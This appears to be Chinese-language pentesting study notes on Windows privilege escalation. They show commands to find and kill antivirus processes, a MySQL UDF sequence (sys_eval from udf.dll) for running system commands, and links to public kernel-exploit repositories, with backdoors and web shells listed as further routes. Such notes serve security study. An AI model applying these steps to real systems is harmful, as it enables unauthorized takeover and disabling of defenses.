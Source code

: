 ## 44.windows提权
#windows提权
#PEASS-ng
## 44.windows提权

1.   系统本身的漏洞
2.   第三方app：数据库、软件、qq

```shell
netstat -ano #查看端口
tasklist | find "PID" key #查找pid
#漏洞 提权 命令执行
tasklist
tasklist | find "360"
taskkill /im "name" /f
```

### 44.1 mysql udf 提权

```mysql
create function sys_eval returns string soname 'udf.dll';
#引入sys_eval函数
select * from mysql.func where name = 'sys_eval';    #查看创建的sys_eval函数
select sys_eval('whoami');
#当 MySQL< 5.1 版本时，将 .dll 文件导入到 c:\windows 或者 c:\windows\system32 目录下。
#当 MySQL> 5.1 版本时，将 .dll 文件导入到 MySQL Server 5.xx\lib\plugin 目录下 (lib\plugin目录默认不存在，需自行创建)。
```

### 44.2 mysql mof 提权

### 44.3 filezilla 提权

### 44.4 各方发布的exp提权漏洞

https://technet.microsoft.com/zh-cn/library/security/dn639106.aspx

https://github.com/SecWiki/windows-kernel-exploits 

https://github.com/WindowsExploits/Exploits 

https://github.com/AusJock/Privilege-Escalation



### 44.-1 其他

1.   启动项
2.   后门
3.   cmd
4.   net
5.   asp、php、aspx、jsp（几乎最高权限）
6.   systeminfo：查询系统详细信息包括漏洞和补丁等，找寻对应漏洞的工具即可
